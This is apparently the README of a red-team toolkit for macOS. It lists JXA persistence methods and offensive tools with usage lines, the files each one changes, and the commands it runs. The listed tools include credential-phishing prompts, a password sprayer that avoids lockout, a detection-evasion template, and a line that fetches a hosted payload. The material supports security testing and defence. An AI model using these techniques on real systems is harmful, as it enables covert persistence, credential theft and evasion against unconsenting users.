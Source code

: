 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog posts: 
- https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5
- https://posts.specterops.io/are-you-docking-kidding-me-9aa79c24bdc1
- https://posts.specterops.io/saving-your-access-d562bf5bf90b

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **AtomPersist** |  Persistence using the Atom init script. Appends the Atom init script to execute our command. <br /> Persistence executes upon Atom opening. |jsimport_call AtomPersist('osascript -l JavaScript -e ...') | Modification to end of: <br /> /System/Volumes/Data/Users/{User}/.atom/init.coffee | N/A ||
| **BashProfilePersist** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | jsimport_call BashProfilePersist('osascript -l JavaScript -e ...', 'no') |  $HOME/.bash_profile or  $HOME/.zshenv <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CalendarPersist** | Persistence via macOS Calendar.app alerts. This script will create new events and inserts them into the calendar with an alert that executes an application. There is additional funcitionality to modify exsiting events, list calendars, list events, and hide calendars. <br /> Persistence executes upon the event alert which triggers the specified persistence application. See https://github.com/FSecureLABS/CalendarPersist for usage details and background | jsimport_call persist_calalert("Fake Meeting", "/Users/Shared/Persist.app", 60, "daily", 1, 3, "FB825EFC-C65F-4959-8BDC-EBDF9E886C45")) | /Users/{USER}/Calendars/Calendar Cache | ***If hide_calendar function used:*** <br /> sh -c defaults write com.apple.iCal DisabledCalendars -dict MainWindow '({uid})'|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | jsimport_call CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | jsimport_call DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> jsimport_call DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist |  ***If ReloadNow function used:*** <br /> /usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  jsimport_call FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **iTermAppScript** | Persistence using the iTerm2 application startup script. Appends the application script for iTerm2 to execute our command. If the folder does not exist then one will be created. <br /> Persistence executes upon iTerm2 opening. <br /> See https://theevilbit.github.io/beyond/beyond_0002/ for more details.|jsimport_call iTermAppScript('osascript -l JavaScript -e ...') | modification to end of /Library/Application\ Support/iTerm2/Scripts/AutoLaunch/iTerm.py | sh -c (Persistence Action) |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | jsimport_call LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | jsimport_call PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **ScreenSaverPersist** | Modifies the screensaver plist for persistence. Requires a .saver at ~/Library/Screen Savers/ to be present on target. Persistence executes upon screensaver triggering. Current implementation sets screensaver at 1 minute. <br />  <br /> **Note: Processes started from the screensaver are sandboxed**  <br /> See https://theevilbit.github.io/beyond/beyond_0016/ for details on the entitlements.  | jsimport_call ScreenSaverPersist("Blank") <br /> | $HOME/Library/Preferences/ByHost/com.apple.screensaver.[Hardware-UUID].plist | /usr/bin/killall -hup cfprefsd |
| **SSHrc** |  Modifies or creates SSH rc file to execute persistence when the user logs in with SSH and if the persistence process (current implementation assumes osascript) is not already running. <br /> See https://twitter.com/0xdade/status/1373145566943711235?s=20 for more details. | jsimport_call SSHrc('itsatrap','osascript -l JavaScript -e ...', 'no') |  /Users/'userName'/.ssh/rc <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> /Users/'userName'/.security/apple.sh <br />  /Users/'userName'/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh /Users/'userName'/.security/apple.sh <br /> <br /> sh /Users/'userName'/.security/persist.sh |
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|jsimport_call SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | jsimport_call SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **TermPref** | Modifies the terminal plist. Current implementation shows an indictator to the end user of the command run upon each new terminal. Persistence executes upon new terminal window. <br />  <br />  See https://theevilbit.github.io/beyond/beyond_0020/ for details.  | jsimport_call TermPref('osascript -l JavaScript -e ...') <br /> | $HOME/Library/Preferences/com.apple.Terminal.plist | /usr/bin/killall -hup Terminal |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | jsimport_call VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |
| **xbarPlugin** | Persistence using xbar plugins. Creates a plugin file that is executed  upon the opening of xbar. <br />  Persistence executes upon xbar opening. Concept from @bradleyjkemp | jsimport_call xbarPlugin('osascript -l JavaScript -e ...')  | $HOME/Library/Application\ Support/xbar/plugins/xbarUtil.py | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| jsimport_call DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **InjectCheck** | Process Injection Checker. The tool enumerates the Hardened Runtime, Entitlements, and presence of Electron files to determine possible injection opportunities | jsimport_call InjectCheck("All") <br /> or <br /> jsimport_call InjectCheck("/Applications/Firefox.app") | N/A | N/A |
| **JamfInfo** | Jamf Plist Inspector. List of Jamf configuration details and Azure information (if applicable). Inspects the plist located at /Library/Preferences/com.jamfsoftware.jamf.plist | jsimport_call JamfInfo()| N/A | N/A |
| **PasswordSpray** | Local Account Password Sprayer. The tool leverages the Open Directory Framework to test passwords which is not subject to account lockout | jsimport_call PasswordSpray("itsatrap","Password1,Password2,Password3") | N/A | N/A |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | jsimport_call PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | jsimport_call OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
